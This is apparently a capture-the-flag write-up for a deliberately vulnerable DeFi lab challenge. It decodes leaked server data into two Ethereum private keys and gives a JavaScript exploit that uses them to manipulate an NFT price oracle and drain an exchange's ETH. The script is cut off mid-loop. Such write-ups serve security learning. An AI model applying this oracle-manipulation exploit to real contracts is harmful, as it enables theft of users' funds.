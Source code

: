 This looks like a base64 string. Let's decode it again. We get this:<br/>

```
First private key: 0xc678ef1aa456da65c6fc5861d44892cdfac0c6c8c2560bf0c9fbcdae2f4735a9
Second private key: 0x208242c40acdfa9ed889e685c23547acbed9befc60371e9875fbcd736340bb48
```

No we have 2 64 hex characters strings (excluding the `0x`) which means we have 32 bytes strings. An ethereum private key has the length of 32 bytes. To [create an account](https://ethereum.org/en/developers/docs/accounts/#account-creation), the public key (account's address) is generated from the private key using the Elliptic Curve Digital Signature Algorithm, also known as `secp256k1` curve. You get a public address for your account by taking the last 20 bytes of the `keccak256` hash of the public key and adding `0x` to the beginning.

Ethers allows us to create a wallet by giving it a private key (optionally add a provider to enable making transactions). The generated public keys are the following:

```
First public key: 0xe92401A4d3af5E446d93D11EEc806b1462b39D15
Second public key: 0x81A5D6E50C214044bE44cA0CB057fe119097850c
```

Now we have two of the three trusted reporters. This means we override the NFT price. Here's the code:

```js:test/compromised/compromised.challenge.js
    /** CODE YOUR EXPLOIT HERE */
    const serverResponse = [
        "4d 48 68 6a 4e 6a 63 34 5a 57 59 78 59 57 45 30 4e 54 5a 6b 59 54 59 31 59 7a 5a 6d 59 7a 55 34 4e 6a 46 6b 4e 44 51 34 4f 54 4a 6a 5a 47 5a 68 59 7a 42 6a 4e 6d 4d 34 59 7a 49 31 4e 6a 42 69 5a 6a 42 6a 4f 57 5a 69 59 32 52 68 5a 54 4a 6d 4e 44 63 7a 4e 57 45 35",
        "4d 48 67 79 4d 44 67 79 4e 44 4a 6a 4e 44 42 68 59 32 52 6d 59 54 6c 6c 5a 44 67 34 4f 57 55 32 4f 44 56 6a 4d 6a 4d 31 4e 44 64 68 59 32 4a 6c 5a 44 6c 69 5a 57 5a 6a 4e 6a 41 7a 4e 7a 46 6c 4f 54 67 33 4e 57 5a 69 59 32 51 33 4d 7a 59 7a 4e 44 42 69 59 6a 51 34"
    ];

    // get wallets
    const compromisedWallets = [];
    for (let i = 0; i < serverResponse.length; i++) {
        const res = serverResponse[i];
        const sanitizedResponse = res.replaceAll(" ", "");
        const encodedPrivateKeyAsBytes64 = Buffer.from(sanitizedResponse, `hex`).toString(`utf8`);
        const privateKey = Buffer.from(encodedPrivateKeyAsBytes64, `base64`).toString(`utf8`);
        compromisedWallets.push(new ethers.Wallet(privateKey, ethers.provider));

        // reduce price to 0 because exchange pays back the price difference, so we can maximize our profits
        await this.oracle.connect(compromisedWallets[i])
                        .postPrice("DVNFT", 0);
    }

    // buy a DVNFT, pay more than 0 because exchange does not accept a payment of 0 ETH
    await this.exchange.connect(attacker).buyOne({value: ethers.utils.parseEther("0.01")});

    // change price to initial exchange balance to drain its funds
    for (let i = 0; i < compromisedWallets.length; i++) {
        await this.oracle.connect(compromisedWallets[i])
                        .postPrice("DVNFT", EXCHANGE_INITIAL_ETH_BALANCE);
    }

    // sell the DVNFT
    const tokenId = 0;
    await this.nftToken.connect(attacker).approve(this.exchange.address, tokenId);
    await this.exchange.connect(attacker).sellOne(tokenId);

    // change price to initial NFT price to pass the last test check
    for (let i = 0; i < compromisedWallets.length; i++) {
```